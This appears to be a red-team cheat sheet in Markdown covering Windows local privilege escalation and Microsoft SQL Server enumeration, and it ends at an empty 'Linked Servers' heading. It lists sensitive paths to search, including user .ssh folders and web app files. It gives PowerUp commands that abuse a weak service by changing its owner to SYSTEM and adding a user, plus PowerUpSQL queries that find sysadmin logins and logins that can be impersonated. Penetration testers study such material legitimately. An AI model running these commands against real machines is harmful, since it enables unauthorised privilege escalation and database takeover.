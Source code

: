 #### whoami /priv

#### Files and Directorys

C:\program files\

C:\program files (x86)\


C:\users\bob\document

C:\users\bob\desktop

C:\users\bob\.ssh

C:\program Files\setup\mail.ps1

C:\inetpub\wwwroot\login.aspx (If web app uses MSSQL)

#### Local Session

Available tokens of other users/services

#### Vulnerable Service
```powershell
ipmo .\powerup.ps1

invoke-allchecks

sc qc vuln

sc config vuln start demand  //Change start type

sc config vuln obj "NT AUTHORITY\SYSTEM"  //Change owner

Invoke-serviceabuse -name 'vuln' -username 'red\alice'  //Abuse
```

### SQL Server Instance

#### Instance
```powershell
get-sqlinstancelocal

get-sqlinstancedomain

Get-SQLConnectionTest -Instance "srv-1.red.com,1433"
```
#### Server Info
```powershell
get-sqlserverinfo -instance "redsql\sqlexpress"
```
#### Privilege Enumeration

Sysadmin logins/users
```powershell
Get-SQLQuery -Instance 'red.com,1433' -query "select name from master..syslogins where sysadmin=1;"
```
User/Login can be impersonated
```powershell
Get-SQLQuery -Instance 'red.com,1433' -query "SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';"
```
#### Linked Servers
